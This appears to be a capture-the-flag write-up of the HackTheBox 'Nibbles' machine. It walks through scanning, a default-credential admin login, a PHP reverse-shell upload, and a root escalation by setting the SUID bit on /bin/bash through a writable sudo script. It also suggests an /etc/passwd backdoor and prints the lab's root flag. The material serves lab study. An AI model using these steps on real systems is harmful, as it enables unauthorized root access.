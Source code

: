 # <center>Nibbles</center>

<p align='center'><img src="https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/nibbles/nibbles_info.png"></p>

Hello there, let's try an easy labeled linux based HTB machine `Nibbles`.

## Initial Step

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.242).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration

- performing agressive nmap scan on the given ip. 
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -A -T4 10.10.10.75                 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-22 18:34 IST
Nmap scan report for 10.10.10.75
Host is up (0.075s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   73.24 ms 10.10.14.1
2   74.74 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.15 seconds
```

Cool, only two ports are open, 22 for SSH, and 80 for Apache. Checking on SSH would be the last thing I'd try 😅, so let's explore the website part.

![landing page of website](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/nibbles/landing_page.png)

- the page seems normal, but in the developer section, we can see a directory `/nibbleblog` listed. The machine is more like of ctf type.

- checking `nibbleblog` directory, it feels more like a CMS.

![CMS landing page](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/nibbles/cms.png)


Time for some directory enumeration. Let's use gobuster.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt -t 100 -q
/.hta                 (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/] 
```

Hmm, soo many interesting files. After travelling through them manually, we can get a login page at `/admin.php`. further more, while exploring, we can find username `admin` as a user in `/content/private/users.xml` file.

```xml
<users>
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1514544131</session_date>
</users>
```


## Initial foothold

- Using some guesses and a fact that in older HTB machines, generally the name of machine is the password, I was able to login in admin.php with credentials `admin:nibbles`.


exploring for some time in admin dashboaard, we have a plugin page,where we can input images. and whenever i see someplace to upload file, i go for file upload vulnerability.

![admin dashboard](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/nibbles/admin_dashboard.png)


![file upload](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/nibbles/file_upload.png)

Let's upload the reverseshell from pentest monkey. The code is getting stored in `/content/private/plugins/my_image` directory and is getting named as `image.php`.

![reverse shell uploaded](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/nibbles/revshell_uploaded.png)

Opening the file, landed me to reverseshell on my netcat listener. after certain directory traversing and exploring i was able to get my user flag.

![user flag explored](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/nibbles/user_flag.png)


## Privilege Escalation

wohooo, we acomplished our first task. Now time to get root.

`sudo -l` revealed that the user `nibbler` (that we are logged into) can execute `/home/nibbler/personal/stuff/monitor.sh` bash file with as root, without any password.

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Hmm, we have a file, that can be run by us with sudo previlege. I don't actually care what this bash script is doing, if i have permission to edit it, i can modify it and run any command that i wish. So let's check for the file permissions. But wait, from the previous emumeration, we got personal.zip file in nobbler directory. So we need to first unzip it and then check for file permission.

```bash
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip  
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls
personal  personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cd personal
nibbler@Nibbles:/home/nibbler/personal$ ls
stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -al monitor.sh 
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Cool, we have all 777 permission for monitor.sh. Now it's cherry on a cake. We can modify it in any way we want and grab the root flag. Here I will be adding SUID bit to /bin/bash so that i can get bash shell as a root user. But, alternatively u can use some other tricks as well. For example:
- directly cat out the flag from root directory 
- add a backdoor by creating a new entry in /etc/passwd file with root privilege
- run a reverse shell script to get another shell with root previlege and so on...


so first i modified the content of monitor.sh using the command `echo "chmod 4755 /bin/bash" > monitor.sh`. Here `chmod 4755 /bin/bash` is setting a SUID bin to /bin/bash. then simply we can run the shell using `/bin/bash -p` command.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -al monitor.sh 
-rwxrwxrwx 1 nibbler nibbler 21 Feb  6 11:37 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "chmod 4755 /bin/bash" > monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
5cbd47bc5a874949a4e8589f2849679c
```

Hurray! we successfully acquired the root flag 🤩.

Thankyou for reading my writeup cum walkthrough. Hope this was really informative and interesting for you.
 ![nibbles pwned](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/nibbles/nibbles_pwned.png)